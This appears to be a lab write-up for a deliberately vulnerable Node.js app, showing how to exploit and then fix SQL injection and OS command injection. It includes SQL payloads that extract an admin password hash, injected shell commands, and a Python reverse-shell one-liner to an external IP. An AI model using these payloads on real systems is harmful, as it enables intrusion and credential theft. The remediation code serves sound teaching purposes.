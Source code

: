 # sql Injection
## Exploiting error based SQL injection

### Get the result of first user without knowing any user name with sqli
```
' or '1'='1
```

### Exfiltrate admin password hash
```
' UNION SELECT password,1 from Users where login='admin' -- //
```


---
## The Vulnerability 

No input validation or sanitization for user controlled inputs

`db.sequelize.query` is a method in the Sequelize ORM (Object-Relational Mapping) library for Node.js that can be used to execute raw SQL queries against a database.

<p>
By default, db.sequelize.query will use parameterized queries, meaning that any input values will be automatically escaped and treated as parameters rather than being concatenated into the SQL string. This helps to prevent SQL injection attacks and makes the query more efficient, as the database can cache the execution plan for the query.

However, it is possible to disable parameterization and use raw SQL queries by passing the `raw: true` option to the db.sequelize.query method. In this case, you should be careful to manually escape any input values to prevent SQL injection vulnerabilities.
</p>

You can check if the raw option is set to true or not by looking at the second parameter of the db.sequelize.query method.

If the second parameter is an object that contains a raw property set to true, then the query is a raw SQL query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464025-25a66d2b-685f-4b6f-bb59-1ab16c589e38.png)

On the other hand, if the second parameter is not an object, or if it is an object that does not contain a raw property set to true, then the query is a parameterized query. For example:
![image](https://user-images.githubusercontent.com/120215854/233464100-51b4295b-3303-4966-9574-53301f8906e8.png)


<br>
---
## The fix

We can use `model's` `find` function and rely on in-built input sanitization of sequelize.

### Edits to the `core\appHandler.js`

```js
module.exports.userSearch = function (req, res) {
//Comment out the following lines 
	//var query = "SELECT name,id FROM Users WHERE login='" + req.body.login + "'";
	//db.sequelize.query(query, {
	//	model: db.User
	//}).then(user => {
	//	if (user.length) {
		db.User.find({where:{'login':req.body.login}}).then(user => {
			if (user) {
			var output = {
				user: {
					//name: user[0].name,
					//id: user[0].id
					name: user.name,
					id: user.id
				}
			}
			res.render('app/usersearch', {
				output: output
			})
		} else {
			req.flash('warning', 'User not found')
			res.render('app/usersearch', {
				output: null
			})
		}
	}).catch(err => {
		//req.flash('danger', 'Internal Error')
		req.flash('yei', 'Fixed it')
		res.render('app/usersearch', {
			output: null
		})
	})
}
```


---

<br><br>

# OS Command Injection

## Exploiting
##### Intended behaviour
```
Enter a valid IP
8.8.8.8
```
##### Exploiting by appending a OS command 
```
# List the files
8.8.8.8, ls

# Get the effective username of the current user when invoked
8.8.8.8, whoami
```

##### Getting a reverse shell
```
# Start a listener on your public IP
nc -nlvp 4444

# Run the following in vulnerable app function
8.8.8.8; python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("138.68.66.98",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' 
```


### Vulnerability 

~~~
'exec' method can execute arbitrary OS commands
~~~


### The fix

~~~
We can use `exec_file` or `spawn` method under child_process which will prevent arbitrary command execution.
~~~

### Edits to the `core\appHandler.js`

```js
// Remove the following line or replace 'exec' with 'execFile'
const exec = require('child_process').exec;

// Add the follwing line 
const execFile = require('child_process').execFile;
```

Then 
```js
// Remove/Replace the line 
exec('ping -c 2 ' + req.body.address, function (err, stdout, stderr) {

// Add the line
execFile('ping', ['-c', '2', req.body.address] , function(err,stdout,stderr){
```



